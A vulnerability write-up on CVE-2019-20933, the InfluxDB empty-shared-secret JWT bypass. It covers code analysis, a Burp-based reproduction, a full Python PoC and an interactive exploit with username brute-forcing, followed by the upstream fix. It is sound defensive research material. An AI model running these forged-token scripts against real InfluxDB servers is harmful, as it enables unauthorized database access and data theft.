






# CVE-2019-20933 CWE-287 InfluxDB JWT unauthorized access

## Vulnerability Background
- **InfluxDB**: An open-source time series database that allows users to store and retrieve time series data. A query is a way to perform database operations; it is a query statement used to retrieve data, modify data, or perform other database operations from the database.

- **JWT (JSON Web Tokens)**: An open standard (RFC 7519) that defines a compact and self-contained method for securely transmitting information between parties in the form of JSON objects. Each token is digitally signed, allowing verification of the sender's identity and ensuring that data is not tampered with during transmission.

Signature generation: When we generate `JWT` tokens, the system uses a key to sign the token's contents (called "`payload`") through a specified algorithm. `JWT` Tokens include Header (indicating the signature algorithm), `Payload` (containing user information, expiration date, role, and other data), and `Signature` (calculated using `Header` and `Payload` through the signature algorithm).

Signature Verification: When receiving a `JWT` token, the system verifies the token's integrity and authenticity based on the signature portion within the token. Separate ` Header`, `Payload`, and `Signature` from JWT. Using `h.Config.SharedSecret` as the key and signature algorithm, the `Header` and `Payload` are recomputed for signatures, and then compared with the `Signature`.

## Vulnerability Mechanism
InfluxDB is a well-known time-series database that uses JWT as its authentication method. If the user has enabled authentication but has not set parameter `shared-secret`, the JWT authentication key is an empty string. At this point, the attacker can forge any user identity to execute SQL statements in influxdb.

Before version 1.7.6, the JWT authentication key `shared-secret` in InfluxDB's configuration file did not have a default value, meaning that if the user did not explicitly specify this value during configuration, it would default to an empty string. InfluxDB's JWT authentication mechanism cannot function properly because the JWT token verification process requires this key to verify the token's signature. This design oversight led to the existence of the CVE-2019-20933 vulnerability.

An attacker can construct a JWT token without a valid signature, bypassing authentication systems and performing operations as any user, including but not limited to queries and data writes.

## Vulnerability Location
1. Locate the code file **influxdb-1.6.6 \services \httpd \handler.go** that authenticates users before processing HTTP requests, with line **1374** in the code. This code is an authentication middleware in the InfluxDB HTTP service `authenticate` 。 Its purpose is to authenticate users before processing HTTP requests.

- **No authentication required**: If the `requireAuthentication` is `false`, authentication is not performed and the `inner` function is directly called to handle the request.

- **Certification Process**: If certification is required (`requireAuthentication` is `true`), follow these steps:

a. **Parse authentication information**: Use the `parseCredentials` function to parse authentication information from HTTP request `r` to obtain `creds`.

b. **Basic Authentication**: If the `creds.Method` is `UserAuthentication`, check if the username exists, then use the `h.MetaClient.Authenticate` method to authenticate. If authentication fails, a 401 Unauthorised error is returned.

c. **Bearer Authentication**: If `creds.Method` is `BearerAuthentication`, follow these steps:

- Define `keyLookupFn` functions to extract signature keys from `JWT` tokens. Here, check whether the token's signature method is `HMAC` and return `h.Config.SharedSecret` as the key for signature verification.
  - Use `jwt.Parse` functions and `keyLookupFn` to parse and validate `JWT` tokens. If parsing fails or the token is invalid, a `401 Unauthorized` error is returned.
  - Extract usernames from the token `claims` and look up the corresponding user information in the metadata store. If the user does not exist or the token lacks the necessary `claims`, a `401 Unauthorized` error is returned.

- **Call Inner Layer Processing Functions**: If authentication succeeds, call the `inner` function and pass in user information `user`.

```go
//influxdb-1.6.6\services\httpd\handler.go
func authenticate(inner func(http.ResponseWriter, *http.Request, meta.User), h *Handler, requireAuthentication bool) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		// Return early if we are not authenticating
		if !requireAuthentication {
			inner(w, r, nil)
			return
		}
		var user meta.User

		// TODO corylanou: never allow this in the future without users
		if requireAuthentication && h.MetaClient.AdminUserExists() {
			creds, err := parseCredentials(r)
			if err != nil {
				atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
				h.httpError(w, err.Error(), http.StatusUnauthorized)
				return
			}

			switch creds.Method {
			case UserAuthentication:
				if creds.Username == "" {
					atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
					h.httpError(w, "username required", http.StatusUnauthorized)
					return
				}

				user, err = h.MetaClient.Authenticate(creds.Username, creds.Password)
				if err != nil {
					atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
					h.httpError(w, "authorization failed", http.StatusUnauthorized)
					return
				}
			case BearerAuthentication:
				keyLookupFn := func(token *jwt.Token) (interface{}, error) {
					// Check for expected signing method.
					if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
						return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
					}
					return []byte(h.Config.SharedSecret), nil
				}

				// Parse and validate the token.
				token, err := jwt.Parse(creds.Token, keyLookupFn)
				if err != nil {
					h.httpError(w, err.Error(), http.StatusUnauthorized)
					return
				} else if !token.Valid {
					h.httpError(w, "invalid token", http.StatusUnauthorized)
					return
				}

				claims, ok := token.Claims.(jwt.MapClaims)
				if !ok {
					h.httpError(w, "problem authenticating token", http.StatusInternalServerError)
					h.Logger.Info("Could not assert JWT token claims as jwt.MapClaims")
					return
				}

				// Make sure an expiration was set on the token.
				if exp, ok := claims["exp"].(float64); !ok || exp <= 0.0 {
					h.httpError(w, "token expiration required", http.StatusUnauthorized)
					return
				}

```

2. Locate the code to parse the JWT token, line **1406**, where the `keyLookupFn` function is used to extract the signature key from the JWT token. Here, check whether the token's signature method is `HMAC` and return `h.Config.SharedSecret` as the key for signature verification. Next, follow up on `h.Config.SharedSecret`.

```go
//influxdb-1.6.6\services\httpd\handler.go
case BearerAuthentication:
				keyLookupFn := func(token *jwt.Token) (interface{}, error) {
					// Check for expected signing method.
					if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
						return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
					}
					return []byte(h.Config.SharedSecret), nil
				}
```

3. At line **126** of handler.go file, the `NewHandler` function creates and returns a new `Handler` instance, while `h` is a pointer to the instance of the struct named `Handler`. Continue analyzing the `Handler` Structure.

```go
//influxdb-1.6.6\services\httpd\handler.go
func NewHandler(c Config) *Handler {
	h := &Handler{
		mux:            pat.New(),
		Config:         &c,
		Logger:         zap.NewNop(),
		CLFLogger:      log.New(os.Stderr, "[httpd] ", 0),
		Store:          storage.NewStore(),
		stats:          &Statistics{},
		requestTracker: NewRequestTracker(),
	}
    // ... ...
    return h
}
```

4. At line **80** of the handler.go file, find the definition of the `Handler` structure, which includes the methods and fields needed to handle HTTP requests. It can handle client HTTP requests and return an HTTP response. In the `Handler` structure, there is a `Config` field, which is the pointer to the `Config` structure.

```go
//influxdb-1.6.6\services\httpd\handler.go
// Handler represents an HTTP handler for the InfluxDB server.
type Handler struct {
	//... ...
	Config    *Config
	//... ...
}
```

5. Navigate to the **influxdb-1.6.6 \services \httpd \config .go** file, at line **29**, and find the definition of the `Config` structure, which defines the variable of type `string` `SharedSecret` 。 The `toml:"shared-secret"` tag here tells the parser that the value of this field should be read from `shared-secret` item in the configuration file.

```go
// Config represents a configuration for a HTTP service.
type Config struct {
	// ... ...
	SharedSecret            string        `toml:"shared-secret"`
	//... ...
}
```

6. Navigate to the configuration file **influxdb-1.6.6 \etc \influxdb \influxdb.conf**, line **265** `shared-secret` is defined as empty by default, meaning `h.Config.SharedSecret` is set to empty.

```
  //influxdb-1.6.6\etc\influxdb\influxdb.conf
  # The JWT auth shared secret to validate requests using JSON web tokens.
  # shared-secret = ""
```

Therefore, when constructing the `JWT` token, you only need to ensure the `Payload` is empty and that the timestamp `exp` has not expired to be validated by signature.

## Affected Versions
influxDB <1.7.6

## Environment Setup
Start the Docker environment, InfluxDB version 1.6.6


## Vulnerability Reproduction
> 1. Construct a JWT token without a valid signature by setting the payload to empty and setting the timestamp exp to not expire
> 2. Using constructed JWT tokens, send packets with SQL statements to access the query interface, successfully executing the SQL statement

The target IP here is 192.168.233.133

1. Directly entering the IP and port number cannot access the site.


2. Access the `/query` query function and prompt for login verification.


3. Packet capture: If the response header contains the X-Influxdb-Version flag, i.e., database version information 1.6.6, it indicates a vulnerability.


Or access the `/debug/vars` path to obtain database version information.


4. Since IFLUXDB uses JWT encryption, we only need to encode it on the JWT encryption and decryption website and add it to the packet to bypass authorization and perform queries.

Use a JWT generation tool such as https://jwt.io/ to construct a token. Set the algorithm (`alg`) to HS256 and the type (`typ`) to JWT; put `admin` in the username claim; set `exp` to a future timestamp (the example uses `2549537443`, in 2050); and leave the signing secret blank to demonstrate the vulnerable empty-secret configuration.




5. Right-click and select the package you grabbed in step 6, then choose repeater.



6. Change the request method to POST, add the generated JWT token in the `Authorizatio` field, and add the `Content-Type: application/x-www-form-urlencoded` field to indicate the resource's MIME type. Finally, add the POST request key-value pair: `db=sample&q=show+users` to send the packet containing this JWT token. Check the echo in the Response and successfully retrieve the result: username admin, true means admin user has administrator privileges.

Because the POST request packet is constructed in the query interface, and query statements are added after the packet, if authentication is successfully bypassed, it is equivalent to requesting `http://192.168.233.133:8086/query?db=sample&q=SHOW+USERS`.



7. Modify the request statement to `q=show+database` to get the result: two databases are `sample` and `_internal`.



## PoC Analysis
Execute POC code:

```cmd
python CVE-2019-20933-POC.py --host 127.0.0.1 "SHOW USERS"
```

Obtain query results that prove there is a vulnerability



The principle is to construct and send JWT packets based on the target information entered by the user, print out the response to the command line, and if the result is successfully obtained, it indicates a vulnerability.

```python
#!/usr/bin/env python3
import time
import urllib
import argparse
import requests as requests
import jwt
from pprint import pprint


class Query:
    def __init__(self) -> None:
        pass

    #Enter the target IP, port, username, database name, and query statement on the command line
    def parse_args(self):
        parser = argparse.ArgumentParser(
            description="A simple, silly, over-the-top influxdb client made in Python"
        )
        parser.add_argument(
            "--host",
            default="127.0.0.1",
            help="The target IP. (default: localhost)",
        )
        parser.add_argument(
            "--port", "-p", default="8086", help="The target port. (default: 8086) "
        )
        parser.add_argument(
            "--user", default="admin", help="The target username. (default: admin)"
        )
        parser.add_argument("--db", default="sample", help="The database to use.")
        parser.add_argument(
            "query",
            default="SHOW USERS",
            help="The query to execute. default: SHOW USERS",
        )
        args = parser.parse_args()
        self.args = args

    #Constructing a JWT token and modifying the EXP timestamp are invalid
    def generate_token(self):
        exp = int(time.time())
        exp = exp + 2628000  # 1 month

        payload = {"username": self.args.user, "exp": exp}

        return jwt.encode(payload, "", algorithm="HS256")

    #Send a data packet to the target
    def generate_request(self):
        token = self.generate_token()
        try:
            headers = {
                "Authorization": f"Bearer {token}",
            }
        except:
            token = token.decode("utf-8")
            headers = {
                "Authorization": f"Bearer {token}",
            }

        # Send request
        query = urllib.parse.quote_plus(self.args.query)
        response = requests.get(
            f"http://{self.args.host}:{self.args.port}/query?db={self.args.db}&q={query}",
            headers=headers,
        )
        return response.json()

    #Obtain response results
    def exploit(self):
        result = self.generate_request()
        pprint(result)

if __name__ == "__main__":
    query = Query()
    query.parse_args()
    query.exploit()
```

## Exploit Analysis
Execute the EXP file and enter the relevant information about the target

```cmd
python CVE-2019-20933-EXP.py
```

Successfully obtained the SQL command line, selected init_db database, retrieved all measurements (tables) in the database, returned a measurement named weather, and executed successfully



The principle is to read the list of usernames provided by the user based on the target information provided, then try to generate and send JWT packets for each username. If the database is successfully accessed, the username is valid and then enters the interactive shell. Then, by inputting different query statements into the shell, users generate different JWT packets, exploiting vulnerabilities to obtain more database information.

```python
#!/bin/env python

import json
import pathlib
import time
import urllib
import requests as requests
import jwt
from termcolor import colored

def bruteforceUser(filename, host, port):
    print()
    print("Bruteforcing usernames ...")
    #Read the username list file and try to generate a JWT for each username
    with open(filename) as f:
        for line in f:
            line = line.replace("\n", "")
            exp = int(time.time())
            exp = exp + 2.628 * 10 ** 6
            # Generation JWT
            payload = {
                "username": line,
                "exp": exp
            }

            #Using the generated JWT to send query requests and check whether the database can be successfully accessed, similar to POC
            token = jwt.encode(payload, "", algorithm="HS256")
            query = "SHOW DATABASES"
            response = makeQuery(token, 'dummy', host, port, query)
            response = json.loads(response)
            #If a valid username is found, return it and exit the function
            if "error" in response.keys():
                if "signature is invalid" in response['error']:
                    print(colored("ERROR: Host not vulnerable !!!", "red"))
                    print(colored("ERROR: " + response['error'] + "", "red"))
                    exit(1)
                if "user not found" in response['error']:
                    print("[{}] {}".format(colored("x", "red"), line))
            else:
                print("[{}] {}".format(colored("v", "green"), line))
                print()
                username = line
                return username

    print(colored("ERROR: no valid username found !!!", "red"))
    exit(1)

def makeQuery(token, db, host, port, query):
    #Construct the HTTP request header
    try:
        headers = {
            'Authorization': 'Bearer ' + token,
        }
    except:
        token = token.decode("utf-8")
        headers = {
            'Authorization': 'Bearer ' + token,
        }

    # Send request
    query = urllib.parse.quote_plus(query)
    response = requests.get('http://' + host + ':' + str(port) + '/query?db=' + db + '&q=' + query, headers=headers)
    return response.text

def exploit():
    # imput data
    print()
    try:
        host = input("Host (default: localhost): ")
    except KeyboardInterrupt:
        return

    if host == "":
        host = "127.0.0.1"

    try:
        port = input("Port (default: 8086): ")
    except KeyboardInterrupt:
        return
    if port == "":
        port = 8086

    try:
        username = input("Username <OR> path to username file (default: users.txt): ")
    except KeyboardInterrupt:
        return

    if username == "":
        username = "users.txt"

    # check if username is a valid file to start bruteforce
    file = pathlib.Path(username)
    if file.exists():
        username = bruteforceUser(username, host, port)

    exp = int(time.time())
    exp = exp + 2.628 * 10 ** 6  # Aggiungo un mese

    # Generation JWT
    payload = {
        "username": username,
        "exp": exp
    }

    token = jwt.encode(payload, "", algorithm="HS256")
    #print("Token: {}".format(token))
    query = "SHOW DATABASES"
    response = makeQuery(token, 'dummy', host, port, query)
    response = json.loads(response)

    if "results" in response.keys():
        print(colored("Host vulnerable !!!", "green"))
    else:
        print(colored("ERROR: Host not vulnerable !!!", "red"))
        print(colored("ERROR: "+response['error']+"", "red"))
        return
    
    # Get databases list
    dblist = [db[0] for db in response['results'][0]['series'][0]['values']]

    while True:
        print()
        print("Databases:")
        print()
        for (i, db) in enumerate(dblist):
            print("{}) {}".format(i + 1, db))

        print()
        print(".quit to exit")


        try:
            db = input("[{}@{}] Database: ".format(colored(username, "red"), colored(host, "yellow")))
        except KeyboardInterrupt:
            print()
            print("~ Bye!")
            break

        if db in ['.exit', '.quit', '.back']:
            return
        if db == "":
            continue

        try:
            db = dblist[int(db) - 1]
        except IndexError as e:
            # Prompt again if database index if not in range
            continue
        except Exception as e:
            # Check if database exists if its a string
            if db.strip() == "":
                continue
            if db not in dblist:
                print(colored("[Error] ", "red") + "No such database: \"" + colored(db, "yellow") + "\"")
                continue
            pass

        print()
        print("Starting InfluxDB shell - .back to go back")
        while True:
            try:
                query = input("[{}@{}/{}] $ ".format(colored(username, "red"), colored(host, "yellow"), colored(db, "blue")))
            except KeyboardInterrupt:
                break

            if query.strip() == "":
                continue

            if query in ['.exit', '.quit', '.back']:
                break

            response = makeQuery(token, db, host, port, query)
            response = json.loads(response)
            print(json.dumps(response, indent=4, sort_keys=True))


if __name__ == '__main__':
    print(colored("""
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |  
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_ 
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_ 
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |                  
                                                         |_|                  """, 'green'))
    print(colored(" - using CVE-2019-20933", "yellow"))

    exploit()
```

## Remediation

Upgrade to InfluxDB 1.7.6 or later. Pull request 13088 makes bearer authentication fail closed when `shared-secret` is empty and verifies that the JWT uses the expected HMAC signing method before accepting the token.

Configure a long random `shared-secret`, rotate any tokens issued under a weak or empty secret, and never expose the HTTP API without authentication. Restrict the API to trusted networks and monitor authentication failures while the upgrade is being deployed.
Added statements to determine whether `h.Config.SharedSecret` is empty

```go
case BearerAuthentication:
				if h.Config.SharedSecret == "" {
					atomic.AddInt64(&h.stats.AuthenticationFailures, 1)
					h.httpError(w, "bearer auth disabled", http.StatusUnauthorized)
					return
				}
				keyLookupFn := func(token *jwt.Token) (interface{}, error) {
					// Check for expected signing method.
					if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
						return nil, fmt.Errorf("unexpected signing method: %v", token.Header["alg"])
					}
					return []byte(h.Config.SharedSecret), nil
				}
```

## References
[Vulnerability reproduction](https://www.cnblogs.com/re8sd/p/17903732.html)

[Vulnerability Localization](https://github.com/influxdata/influxdb/issues/12927)

[Vulnerability fixes](https://github.com/influxdata/influxdb/pull/13088)
